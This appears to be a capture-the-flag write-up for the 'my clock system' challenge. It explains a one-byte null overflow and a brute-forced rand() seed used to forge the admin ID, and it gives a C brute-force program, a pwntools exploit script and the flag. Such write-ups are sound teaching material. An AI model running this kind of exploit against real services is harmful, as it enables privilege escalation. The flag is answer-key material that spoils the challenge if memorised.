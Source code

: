 ## `my clock system`
### Problem Description
- Author: aynakeya
    - Just another service used to get the time, but this one seems to be broken. I have to set the current time before I can check the time, otherwise the time is not accurate.

### Solution
In this challenge, we need to get the flag by calling `get_secret`, which is option 0x1337 (i.e. 4919). However, this only works if our `current_user`'s ID is the admin ID. First thing we note is that while `get_str` only gets 64 chars, the null termination byte is written too, so writing to a `clock_user` can actually overwrite the least significant byte of `id` with 0, which is what we want because the admin ID ends in 00. However, we need to find a seed such that when we set the time to that seed, we only need to `reset_user` once to set the upper 3 bytes of the id to 0x55baa5. This is where brute force, once again, comes in handy:

```c
#include <stdlib.h>
#include <stdio.h>

int main() {
    for (unsigned seed = 0; seed < 0xffffffff; ++seed) {
        srand(seed);
        int output = rand();

        if ((output & 0xffffff00) >> 8 == 0x55baa5) {
            printf("%d\n", seed);
            break;
        }
    }
}

// output: 4546713
```

Now we just need to `pwntools` this:

### Script
```python
import re

io = start()

SEED = 4546713
io.recvlines(3)
io.sendline(b"1") # new account
io.recvline()
io.sendline(b"a" * 64) # username is 64 as to write a 0 byte to the user ID
io.recvuntil(b"> > ")
io.sendline(b"2") # set current time to SEED
io.sendlineafter(b"please enter current time: ", str(SEED).encode())
io.sendlineafter(b"> ", b"3") # reset account to call rand() with SEED once
io.recvline()
io.sendline(b"a" * 64) # username is get after setting the ID, so overwrite the user ID with a 0 byte again
io.recvlines(2)
io.sendlineafter(b"> > ", b"4919") # get_secret!!
print(re.search(r"maple\{[a-zA-Z0-9_!\-\?]+\}", io.recvline().decode())[0])
io.close()
```

### Flag: `maple{1_by73_0v3rfl0w_ovo}`